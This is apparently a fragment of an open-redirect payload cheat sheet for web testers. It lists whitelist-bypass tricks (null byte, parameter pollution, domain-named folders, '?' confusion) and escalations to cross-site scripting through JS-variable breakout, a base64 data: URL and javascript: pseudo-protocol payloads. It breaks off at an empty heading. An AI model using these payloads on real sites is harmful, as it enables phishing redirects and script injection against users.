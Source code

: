 Using null byte "%00" to bypass blacklist filter

```powershell
//google%00.com
```

### Ip confusion

### Other

Using parameter pollution

```powershell
?next=whitelisted.com&next=google.com
```

Creating folder as their domain

```powershell
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

Using "?" characted, browser will translate it to "/?"

```powershell
http://www.yoursite.com?http://www.theirsite.com/
http://www.yoursite.com?folder/www.folder.com
```

XSS from Open URL - If it's in a JS variable

```powershell
";alert(0);//
```

XSS from data:// wrapper

```powershell
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper

```powershell
http://www.example.com/redirect.php?url=javascript:prompt(1)
```


## Open redirect to XSS

Using Script Pseudo-Protocols

```javascript
javascript:alert(1)
```


## Common injection parameters
